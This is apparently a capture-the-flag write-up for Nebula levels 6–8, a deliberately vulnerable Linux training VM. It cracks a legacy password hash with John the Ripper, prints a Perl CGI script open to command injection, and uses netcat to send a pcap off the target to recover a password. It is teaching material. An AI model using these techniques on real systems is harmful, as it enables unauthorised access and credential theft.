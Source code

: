 ```yaml
---
title: "Writeup: Nebula (level 6 - level 8)"
date: 2020-12-19T16:05:18+08:00
draft: false
---
```


Nebula is a virtual machine that covers a variety of challenges about Linux privilege escalation, scripting language issues, and file system race conditions. It is available at [Exploit Exercises](https://exploit-exercises.lains.space/).

<br>

## Level 6

The description of Level 6 is provided as follows.

```
The flag06 account credentials came from a legacy unix system.

To do this level, log in as the level06 account with the password level06. 
Files for this level can be found in /home/flag06.
```

If you are not familiar with the password file (/etc/passwd) and shadow file (/etc/shadow) in the Unix-based system, you can check this [post](https://chuang76.github.io/posts/users_and_groups/) I wrote before. In this challenge, we are going to use the password file to get the flag. 

Let's check the contents of /etc/passwd first. The second field is about password information, i.e., encrypted password. In the modern system, the second field is typically stored as `x`, which means the actual content is maintained in another file called /etc/shadow.

![](https://github.com/chuang76/image/blob/master/06-1.PNG?raw=true)

However, this is a legacy Unix system, the password is not "hidden" in the shadow file. So we can use [John The Ripper](https://zh.wikipedia.org/wiki/John_The_Ripper), a free crafting passwords tool to decode the password. 

```
$ cat passwd
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh

$ john passwd
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
hello            (flag06)
1g 0:00:00:00 100% 2/3 20.00g/s 15060p/s 15060c/s 15060C/s 123456..marley
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now, we have the decoded password, i.e., "hello". Let's use it to log in as account flag06 and get the flag. 

![](https://github.com/chuang76/image/blob/master/06-2.PNG?raw=true)

<br>

## Level 7

Here is the description of Level 7.

```
The flag07 user was writing their very first perl program that allowed them to 
ping hosts to see if they were reachable from the web server.

To do this level, log in as the level07 account with the password level07. 
Files for this level can be found in /home/flag07.
```

The contents in /home/flag07 can be displayed as follows. 

![](https://github.com/chuang76/image/blob/master/07-1.PNG?raw=true)

Let's view the contents of the file index.cgi. It is a CGI script written in Perl. [CGI](https://en.wikipedia.org/wiki/Common_Gateway_Interface) (Common Gateway Interface) is a specification for web servers to execute programs like command-line running on a server that generates dynamic web pages. As you can see, we need to provide the parameter Host to index.cgi. Then, the ping result will be displayed on the screen. We can check that if index.cgi works successfully or not.

![](https://github.com/chuang76/image/blob/master/07-3.PNG?raw=true)

```
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```

Subsequently, let's view the contents of the file thttpd.conf. [Thttpd](https://en.wikipedia.org/wiki/Thttpd) is a simple web server, and thttpd.conf is its configure file. Here is the part of thttpd.conf. As you can see, thttpd is listening to the port 7007, running with our target account fla07, and it supports the CGI program, index.cgi. 

```
port=7007
dir=/home/flag07
user=flag07
cgipat=**.cgi
```

So, we can use wget command to retrieve the response. For example, we can get the result of whoami. Note that the semicolon (;) character should be encoded as "%3B" in URL. 

![](https://github.com/chuang76/image/blob/master/07-4.PNG?raw=true)

Here is the flag. 

![](https://github.com/chuang76/image/blob/master/07-5.PNG?raw=true)

<br>

## Level 8

The description of Level 8 is provided as follows. 

```
World readable files strike again. Check what that user was up to, 
and use it to log into flag08 account.

To do this level, log in as the level08 account with the password level08. 
Files for this level can be found in /home/flag08.
```

Here is the contents of the directory /home/flag08. [Tcpdump](https://en.wikipedia.org/wiki/Tcpdump) is a free tool that allows uses to capture packets. As you can see, capture.pcap is a tcpdump capture file. It is a file that contains packet information. 

![](https://github.com/chuang76/image/blob/master/08-1.PNG?raw=true)

If you view the contents of .pcap file with cat command directly, it is not readable. Instead, we can use tcpdump -r to view the contents.  

![](https://github.com/chuang76/image/blob/master/08-2.PNG?raw=true)

![](https://github.com/chuang76/image/blob/master/08-3.PNG?raw=true)

Next, we are going to analyze these packet information. We can use [Wireshark](https://en.wikipedia.org/wiki/Wireshark), a powerful packet analyzer, to analyze the file. However, since we don't have the permission to install the tool, we are not able to use Wireshark on Nebula. So let's transfer the captured file to our personal machine (e.g. in my case is Kali Linux), then analyze the file on our personal machine.  

If you are not familiar that how to make two virtual machines communication, you can check this [video](https://www.youtube.com/watch?v=vReAkOq-59I). After setting up the network, we can use [netcat](https://en.wikipedia.org/wiki/Netcat) (nc) command to transfer the file as follows. That is, the machine is running nc in listening mode on port 9527.

```
$ nc -l -p 9527 > capture.pcap
```

Subsequently, run the following command to make Nebula send the file to our personal machine. The IP address may be different depends on different machine and setting, you can check the related information via ifconfig command. The IP address of my personal machine is 192.168.100.6. 

```
$ nc 192.168.100.6 9527 < /home/flag08/capture.pcap
```

Open Wireshark on Kali Linux. 

![](https://github.com/chuang76/image/blob/master/08-4.PNG?raw=true)

Follow TCP stream, as you can see, it shows Password: backdoor...00Rm8.ate. However, the dot symbol does not represent the "dot" literally. It means some characters that are non-printable on Wireshark. 

![](https://github.com/chuang76/image/blob/master/08-5.PNG?raw=true)

Let's move on. We need to figure out what is the actual password. We can start at the No. 43 packet, which contains the character Password:. 

![](https://github.com/chuang76/image/blob/master/08-8.PNG?raw=true)

Then, we can focus on what character is transfer from 59.233.235.218 (the user who types the password) to 59.233.235.223. The characters that ends at carriage return (0x0d) can be collected as follows. 

```
'b', 'a', 'c', 'k', 'd', 'o', 'o', 'r', 0x7f, 0x7f, 0x7f, '0', '0', 'R', 'm', '8', 0x7f, 'a', 't', 'e'
```

After checking the ASCII table, we can know that 0x7f means delete. Hence, the actual password is back00Rmate. 

```
backdoor
     ^^^      delete 
back00Rm8
        ^     delete
back00Rmate 
```

Here is the flag. 

![](https://github.com/chuang76/image/blob/master/08-7.PNG?raw=true)

